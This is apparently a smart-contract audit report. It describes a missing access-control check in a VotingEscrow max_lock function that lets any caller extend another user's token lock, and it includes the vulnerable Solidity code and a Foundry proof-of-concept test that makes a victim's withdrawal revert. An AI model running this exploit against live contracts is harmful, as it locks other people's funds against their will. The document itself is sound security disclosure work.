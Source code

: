 Square Arctic Chicken

Medium

# Anyone can permisionlessly extend the lock time of a user forcing them to lock their tokens beyond their intended lock time

## Summary
The `VotingEscrow::max_lock(...)` function is used to _Extend the unlock time to max_lock_time_ for users token. However, the function can be ca permissionlessly by anyone to force extend the locktime of a user when `team` enables max locking in the `ve` contract by setting `max_lock_enabled` to `true`.

## Vulnerability Detail

The problem is that the `max_lock(...)` function is missing access control and thus can 

```solidity
    function max_lock(uint _tokenId) public { // @audit missing checkk that the caller is approved
        if(maxLockIdToIndex[_tokenId] !=0 && max_lock_enabled) { // @audit anyone can enalble max lock for a user due to missing access control
            LockedBalance memory _locked = locked[_tokenId];
            uint unlock_time = (block.timestamp + MAXTIME) / WEEK * WEEK; // Locktime is rounded down to weeks

            if(unlock_time > _locked.end) { // whether it has ended or not
                require(_locked.end > block.timestamp, 'Lock expired');
                require(_locked.amount > 0, 'Nothing is locked');
                require(unlock_time <= block.timestamp + MAXTIME, 'Voting lock can be 52 weeks max');

                _deposit_for(_tokenId, 0, unlock_time, _locked, DepositType.INCREASE_UNLOCK_TIME);
            }
        }
    }
```
- Alice creates lock in the `ve` for 1 WEEK creating token1
- Alice enables max lock by calling `enable_max_lock(token1)`
- Alice current lock time ends in the next 52 weeks
- Before the end of 52 weeks Bob a malicious user calls permissionlessly calls `max_lock(token1)` before the end of the week
- Alice lock end is now extended by an additional 52 weeks (from the point of call)
- Alice calls the `withdraw(...)` with her token1 after 52 weeks but the call reverts becuse her lock end time has been permissionlessly extended by Bob

**CODED POC**

Add the test case below to the `VotingEscrow.t.sol` file and run `forge test --mt testPunishWithLock -vv`

```solidity

    address alice = address(0x03);
    address bob = address(0x04);
    function testPunishWithLock() public {
        flowDaiPair.approve(address(escrow), TOKEN_1);
        uint256 lockDuration = 7 * 24 * 3600; // 1 week

        vm.warp(((block.timestamp / ONE_WEEK )* ONE_WEEK) + ONE_WEEK);

        // Balance should be zero before and 1 after creating the lock
        assertEq(escrow.balanceOf(address(owner)), 0);
        escrow.create_lock(TOKEN_1, lockDuration);
        assertEq(escrow.currentTokenId(), 1);
        assertEq(escrow.ownerOf(1), address(owner));
        assertEq(escrow.balanceOf(address(owner)), 1);


        // for demonstration purposes, give Alice lpTokens to create lock
        vm.prank(address(owner));
        flowDaiPair.transferFrom(address(owner), alice, 10e18);

        // alice lock lp in ve
        vm.startPrank(address(alice));
        flowDaiPair.approve(address(escrow), 10e18);
        uint aliceToken = escrow.create_lock(10e18, lockDuration);
        escrow.enable_max_lock(aliceToken); // alice enables max lock extending her lock time by 52 weeks
        vm.stopPrank();


        // Alice lock has almost ended
        vm.warp(((block.timestamp / ONE_WEEK ) * ONE_WEEK) + (50 * ONE_WEEK) - 100);
        

       // bob extend her lock before her lock ends
        vm.prank(bob);
        escrow.max_lock(aliceToken);

        // alice disables max before the end of her lock end
        vm.prank(address(alice));
        escrow.disable_max_lock(aliceToken);


        vm.warp(((block.timestamp / ONE_WEEK ) *  ONE_WEEK) + 10 * ONE_WEEK);

        // after about 60+ weeks, alice calls withdraw but it reverts
        vm.startPrank(address(alice));
        vm.expectRevert("The lock didn't expire");
        escrow.withdraw(aliceToken);
        vm.stopPrank();

    }
```

## Impact
- Funds are maliciously locked in the contract against the will of users
- withdrawals could revert locking tokens for up to an additional 52 weeks

## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L912


## Tool used
Foundry test

## Recommendation
Add access control to the `max_lock(...)` function
